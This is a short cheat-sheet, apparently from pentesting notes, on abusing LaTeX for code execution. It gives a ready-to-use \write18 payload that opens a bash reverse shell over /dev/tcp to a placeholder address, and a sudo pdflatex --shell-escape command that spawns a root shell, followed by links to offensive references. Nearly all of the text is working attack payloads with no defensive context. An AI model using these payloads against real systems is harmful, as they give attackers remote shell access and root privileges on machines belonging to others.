 #### RvShell
```sh
\immediate\write18{/bin/bash -c 'bash -i >& /dev/tcp/10.x.x.x/4545 0>&1'}
```

#### Sudo
```sh
sudo pdflatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
```

#### Reference
https://0day.work/hacking-with-latex/
https://swisskyrepo.github.io/PayloadsAllTheThings/LaTeX%20Injection/